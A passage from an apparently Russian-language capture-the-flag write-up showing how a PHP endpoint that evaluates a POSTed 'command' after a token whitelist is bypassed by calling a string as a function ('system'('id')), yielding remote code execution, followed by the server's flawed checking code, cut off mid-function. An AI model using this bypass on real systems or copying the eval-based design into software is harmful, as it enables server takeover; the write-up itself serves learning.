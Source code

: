 ```html
<!-- POST,command,inform() -->
```

От нас хотят, чтобы мы сделали POST-запрос, в котором в передаваемых данных поле `command` со значением `inform()`. Делаем, получаем:

```html
<!-- POST,command,inform() -->du u now de wei?
```

Попахивает выполнением произвольного кода, попробуем передать `phpinfo()` вместо `inform()`:

```html
<!-- POST,command,inform() -->No. '(T_STRING) phpinfo'.<script>document.location='https://www.youtube.com/watch?v=Y54ABqSOScQ';</script>
```

Не всё так просто! Нашу попытку славливает парсер и не даёт вызвать произвольную функцию. Очевидно, код получает массив всех токенов из входных данных при помощи функции [`token_get_all`](http://php.net/manual/en/function.token-get-all.php) и проверяет их по какому-то списку разрешённых, прежде чем передавать их на выполнение. Поэкспериментируем и посмотрим, на какие типы токенов страница ругается, а на какие нет.

Код проверки не ругается на строки, это же прекрасно! Вы знали, что в PHP можно вызывать строки, и тогда вызовется функция с названием, равным этой строке? Ну теперь то точно знаете. Передаём в качестве команды `'system'('id')` и радуемся:

```html
<!-- POST,command,inform() -->uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Получили полноценный RCE, найти флаг — дело техники, в данном конкурсе они чаще всего лежат в корне с именем из рандомных символов.

Стоит ещё разве что взглянуть на код проверки. В нём перечислены разрешённые типы токенов, а также разрешённые функции (точнее всего одна — `inform`). Всегда интересно, как задания выглядят под капотом.

```php
function _runPHP($source) {
    $source = "return " . $source . ";";
    if (function_exists("token_get_all")) {//tokenizer extension may be disabled
      $php = "<?php\n" . $source . "\n?>";
      $tokens = token_get_all($php);
      foreach ($tokens as $token) {
        $type = $token[0];
        if (is_long($type)) {
          if (in_array($type, array(
              T_OPEN_TAG,
              T_RETURN,
              T_WHITESPACE,
              T_ARRAY,
              T_LNUMBER,
              T_DNUMBER,
              T_CONSTANT_ENCAPSED_STRING,
              T_DOUBLE_ARROW,
              T_CLOSE_TAG,
              T_NEW,
              T_DOUBLE_COLON
              ))) {
            continue;
          }

          if ($type == T_STRING) {
            $func = strtolower($token[1]);
            if (in_array($func, array(
                //keywords allowed
                    "inform"
              ))) {
```
